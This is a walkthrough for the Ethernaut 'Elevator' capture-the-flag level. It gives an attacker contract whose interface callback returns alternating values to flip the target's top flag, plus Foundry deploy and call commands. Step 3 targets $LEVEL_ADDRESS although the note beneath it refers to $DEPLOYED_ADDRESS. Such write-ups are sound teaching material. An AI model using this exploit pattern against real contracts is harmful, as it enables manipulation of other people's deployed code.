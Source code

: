 ## Elevator Level Outline

**Difficulty : 4/10**

This elevator won't let you reach the top of your building. Right?

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xaB4F3F2644060b2D960b0d88F0a42d1D27484687)

## Solution

We can create a 'switch' variable that can be flipped after every function call effectively returning a different value on every call.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Building {
    Elevator elevator;
    bool isTopFloor = false;

    constructor(address _elevator) {
       elevator = Elevator(_elevator); 
    }

    function attack() public {
        elevator.goTo(42);
    }
     
    function isLastFloor(uint _floor) external returns (bool) {
        bool tempSwtich = isTopFloor; 
        isTopFloor = !isTopFloor;
        return tempSwtich;
    }
}

interface Elevator {
    function goTo(uint _foor) external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Building --constructor-args $LEVEL_ADDRESS --private-key $PRIVATE_KEY 
```

##### 3. Call our newly deployed contract 
```console
cast send $LEVEL_ADDRESS "attack()" --gas 300000 --private-key $PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. Quick confirmation that boolean top has been changed
```console
cast call $LEVEL_ADDRESS "top()"
```
output 
```
0x0000000000000000000000000000000000000000000000000000000000000001
```
> variable top has changed form false to true

## Extra Resources
`public` and `private` are **visibility modifiers**

`pure` and `view` are **state modifiers**

- `pure`: promises functions that will neither read from nor modify the state. Note: Pure replaces constant in more recent compilers.
- `view`: promises functions that will only read, but not modify the state
- `default`: [no modifier] promises functions that will read and modify the the state

You can use the **view function modifier** on an interface in order to prevent state modifications. The **pure function modifier** also prevents functions from modifying the state. 

Read more about state modifiers [here](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions)

### [:arrow_left: Back To Main Menu](../README.md)
